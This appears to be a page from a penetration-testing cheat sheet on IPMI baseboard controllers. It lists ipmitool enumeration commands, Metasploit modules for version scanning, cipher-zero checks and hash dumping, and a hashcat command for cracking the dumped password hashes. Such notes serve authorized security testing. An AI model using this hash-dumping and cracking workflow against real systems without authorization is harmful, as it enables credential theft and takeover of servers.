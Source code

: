 ## Advanced Enumeration

### Using ipmitool
```bash
# Basic IPMI connection test
ipmitool -I lanplus -H target -U username -P password chassis status

# List users
ipmitool -I lanplus -H target -U username -P password user list

# Get system information
ipmitool -I lanplus -H target -U username -P password fru list
ipmitool -I lanplus -H target -U username -P password sdr list

# Power management
ipmitool -I lanplus -H target -U username -P password power status
```

### Using Metasploit
```bash
# IPMI version scan
use auxiliary/scanner/ipmi/ipmi_version
set RHOSTS target
run

# IPMI dumphashes (for cipher zero vulnerability)
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS target
set OUTPUT_HASHCAT_FILE ipmi_hashes.txt
run

# IPMI cipher zero
use auxiliary/scanner/ipmi/ipmi_cipher_zero
set RHOSTS target
run
```

### Hash Extraction and Cracking
```bash
# Extract hashes using ipmi_dumphashes
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS target
set OUTPUT_HASHCAT_FILE ipmi_hashes.txt
run

# Crack hashes with hashcat
hashcat -m 7300 ipmi_hashes.txt wordlist.txt

# Example hash format:
# admin:8140000089eb9c5f41b4e0632b85f1e1e6e9a7b0:f2b4f8c7b4c4b4c4:2:admin:admin
```
